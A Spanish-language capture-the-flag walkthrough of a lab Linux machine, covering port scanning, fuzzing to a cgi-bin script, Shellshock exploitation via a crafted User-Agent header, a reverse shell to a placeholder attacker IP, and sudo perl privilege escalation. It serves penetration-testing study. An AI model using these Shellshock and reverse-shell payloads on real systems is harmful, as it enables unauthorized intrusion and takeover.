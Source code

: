 ## Summary

Tags:  #Linux #SSH #HTTP #ShellShock #Sudoers 

- IP -> 10.10.10.56
- Ports -> TCP (80, 2222), UDP (idk)
- OS ->  Linux Ubuntu 
- Services & Applications
    - 80 -> Apache httpd 2.4.18 
    - 2222 -> OpenSSH 7.2p2 

## Launchpad

* 80 -> Xenial 
* 2222 -> Xenial


## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Miramos con Whatweb
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Haremos fuzzing para buscar mas dir en la web. 
```bash
# Para hacer Fuzzing a la web
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ 

# Como no nos sale nada, debemos de colocarle la barra al final de FUZZ que seria lo mas recomendable
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
	# Encontramos un dir llamado 'cgi-bin'

# Este dir sale cuando tenemos un ShellShock como vulnerabilidad, por lo que haremos otro fuzzing pero con ese dir agregado a la ruta para descubrir archivos que pueden existir en ese dir cgi
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
	# Nos encuentra un "user - sh = user.sh"

```

Colocando la ruta final la cual sería: **10.10.10.56/cgi-bin/user.sh** nos permite descargar un archivo a la maquina de atacante. 

Pero en lugar de descargarlo, podemos ver lo que es con curl.
```bash 
❯ curl -s -X GET http://10.10.10.56/cgi-bin/user.sh      # Miramos el contenido del archivo, nos damos cuenta que es un archivo ejecutable dinamico
```

Cuando tenemos la carpeta cgi-bin, podemos hacer un ataque de ShellShock de la siguiente manera. 
```bash 
❯ nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56    # Ver si es vulnerable a ShellShock
```

```bash 
curl -s -X GET http://<IP>/cgi-bin/user.sh -H "User-Agent: () { :; }; /usr/bin/whoami"  # Debemos de coloca la ruta del archivo.sh, ya que si solo colocamos /cgi-bin/ nos sladra que no tenemos permisos

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami

# Nos sale que el nombre del usuario es Shelly

# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s -X GET http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

```

Antes de usar el comando anterior, debemos de colocarnos en escucha para recibir la revershell
```bash
❯ nc -nlvp 443 
```

## User

Una vez dentro de la maquina victima, hacemos el tratamiento de la TTL para obtner una pseudo-consola

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora nos disponemos a buscar la flag del usuario. 

```bash
❯ lsb_release -a                             # Miramos algunas caracteristicas de la maquina Linux 
```

## Root

Para convertirnos en root buscamos en el Sudoers
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/perl
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

Y encontramos el comando que debemos de ejecutar para poder usar **Perl** y así convertirnos en root. Después buscamos el root.txt. 